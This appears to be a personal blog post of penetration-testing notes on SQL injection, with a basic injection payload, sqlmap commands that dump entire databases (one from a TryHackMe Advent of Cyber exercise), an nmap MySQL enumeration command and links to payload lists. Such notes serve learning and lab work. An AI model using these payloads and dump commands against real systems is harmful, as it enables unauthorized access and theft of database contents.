 ```yaml
---
layout: post 
author: Edwards
date: 2020-11-15 
title: SQL 
math: true
---
```



## Basic SQL Injection
```bash
' or 1=1 -- -
```

## Use sqlmap to dump a database
_sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers._

```bash
sqlmap -r <text.txt> --dbms=mysql --dump
```

- -r use a request intercept with BurpSuite (search request per exemple) 
- -dmbs tells SQLMap what type of database management system it is
- -dump attempts to outputs the entire database

## Example of sqlmap used in Advents of cybersecurity TryHackMe with a burpsuite file.
```bash
sqlmap -r event.request --tamper=space2comment --dump-all -dbms sqlite --answers="follow=Y" --batch
```

## cheat sheet SQL
[!swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)


[!payload_list](https://github.com/payloadbox/sql-injection-payload-list)


[!SQL_injection](https://tryhackme.com/room/sqlibasics)

## Nmap scan 

```
nmap --script=mysql-enum <target>
```